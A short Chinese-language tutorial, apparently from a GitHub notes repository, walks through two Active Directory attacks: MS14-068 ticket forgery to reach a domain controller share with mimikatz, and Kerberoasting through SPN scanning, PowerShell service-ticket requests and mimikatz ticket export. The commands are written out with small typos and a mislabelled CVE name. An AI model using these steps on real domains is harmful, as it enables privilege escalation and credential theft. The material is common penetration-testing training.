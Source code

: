 
# MS14068
- 首先尝试访问域控共享文件夹
![](https://ae01.alicdn.com/kf/HTB1.IzPdL5G3KVjSZPxq6zI3XXax.jpg)
**拒绝访问**

- 使用ms16048

`-u 域账号+@+域名称`
`-p 为当前用户的密码，即 ts1 的密码`
`-s 为 ts1 的 SID 值，可以通过 whoami /all 来获取用户的 SID 值 -d 为当前域的域控`

- 生成ccache文件
![](https://ae01.alicdn.com/kf/HTB13G2TdLWG3KVjSZFPq6xaiXXa9.jpg)

- 删除当前缓存的kerboeos票据 
`kerberos::purge`
![](https://ae01.alicdn.com/kf/HTB1d2L1dRGw3KVjSZFDq6xWEpXaL.jpg)

- 导入ccache文件
`kerberos::ptc`
![](https://ae01.alicdn.com/kf/HTB1lGYVdL1G3KVjSZFkq6yK4XXap.jpg)

- 再次访问域控共享文件
![](https://ae01.alicdn.com/kf/HTB19EDHcAxz61VjSZFtq6yDSVXaD.jpg)

# Kerberoating

## 早期kerberoating

> 工具 Kerberoast工具包 Mimikatz

- 使用Kerberoast工具包GetUserPNs.ps1进行SPN扫描

![](https://ae01.alicdn.com/kf/HTB1wyjxdMmH3KVjSZKzq6z2OXXaM.jpg)

- 根据微软提供的类KerberosRequeststorSecurityToken发起Kerberos请求申请票据
`Add-Type -AssemblyName System.IdentityModel`
`New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/SRC_DB_ODAY.org:1433"`
![](https://ae01.alicdn.com/kf/HTB1n46CdQWE3KVjSZSyq6xocXXa0.jpg)

- 通过klist命令查看当前会话存储的Kerberos票据
`klist`
![](https://ae01.alicdn.com/kf/HTB1NyzJdHus3KVjSZKbq6xqkFXaG.jpg)

- 使用mimikatz导出
`kerberos::list /export`
![](https://ae01.alicdn.com/kf/HTB1FB3Na2Bj_uVjSZFpq6A0SXXaf.jpg)
